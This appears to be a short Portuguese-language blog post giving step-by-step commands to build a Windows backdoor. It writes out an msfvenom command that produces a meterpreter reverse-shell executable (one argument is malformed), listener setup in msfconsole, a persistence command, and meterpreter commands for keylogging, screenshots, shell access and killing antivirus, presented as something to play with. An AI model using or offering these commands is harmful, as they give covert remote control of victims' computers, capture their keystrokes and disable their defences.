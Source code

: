 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:

#msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe 

-Comandos para configurar o modo Listening:

#msfconsole

#use exploit/multi/handler

#set payload windows/meterpreter/reverse_tcp

#set lhost (Seu IP)

#set lport 443

exploit

-Comando manutenção de acesso:

#run persistence -A -X -i 60 -p 443 -f (Seu IP)

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
```meterpreter > help```

Para finalizar a sessão e sair do Meterpreter.
```meterpreter > exit```

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades, 
para usar um modulo auxiliar por exemplo.
```metrpreter > background```

Migrar para outro processo:
```meterpreter > run migrate -f```

Obter shell:
```meterpreter > shell```

Executar um programa:
```execute -f calc.exe```

Keylogger.
```
meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER
```
Captura de tela.

```meterpreter > screenshot```

Finalizar processo de antivirus.

```meterpreter > run killav```

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


